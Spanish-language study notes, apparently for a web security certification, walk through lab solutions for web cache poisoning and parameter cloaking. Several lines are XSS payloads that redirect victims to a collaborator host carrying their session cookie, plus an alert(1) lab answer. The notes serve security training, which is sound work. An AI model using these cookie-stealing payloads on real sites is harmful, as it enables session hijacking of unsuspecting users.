 ![[Pasted image 20250220114954.png]]

* Tiramos el payload XSS para robar la cookie:

```js
//PAYLOADS PARA EL BSCP. 
GET /?utm_content='/><script>document.location="https://OASTIFY.COM?c="+document.cookie</script>

//Si el response no procesa el simbolo `+` lo codeamos a url: 
GET /?utm_content='/><script>document.location="https://OASTIFY.COM?c="%2bdocument.cookie</script>


//CACHE BUSTER:
GET /?pccgfs7bx6=1&utm_content='/><script>document.location="https://oastify.com?c="%2bdocument.cookie</script>

//SOLUCION PARA EL LAB, SIMPLEMENTE UN ALERT
GET /?utm_content='/><script>alert(1)</script> HTTP/2
```

Y a nuestro COLLAB nos llega: 

![[Pasted image 20250220115048.png]]

### LAB: Web Caché Poisoning Parameter cloaking `callback` `cookie` `setCountryCookie`

* Tirar un param miner para guess query params > que será el que nos retorne el `utm_content` y además también dara paso a poder burp scanner retornar vuln critica si la toma. 

> Y bajo la regla del framework ruby on rails un parametro que esté repetido será tomado en cuenta el parametro final de esos params repetidos, en este caso este callback con la alert function. /?exampletest=23&user=carlos&exampletest=;alert(1) el segundo exampletest será el tomado en cuenta, entiendes lo que te digo?
#### Research que válida el parameter cloaking:

1. [https://portswigger.net/research/web-cache-entanglement](https://portswigger.net/research/web-cache-entanglement) → James Keetle.

> The `callback` parameter is keyed, and thus cannot poison cache for victim user, but by combine duplicate parameter with `utm_content` it then excluded and cache can be poisoned.

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=EVILFunction
```

![[Pasted image 20250220120129.png]]

> Cache Cloaking Cookie Capturing payload below, keep poising cache until victim hits stored cache.

```js
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=document.location='https://OASTIFY.COM?nuts='%2bdocument.cookie%3b HTTP/2
```

> Below is [Url Decoded](https://www.urldecoder.org/) payload. -> for the BSCP EXAM.
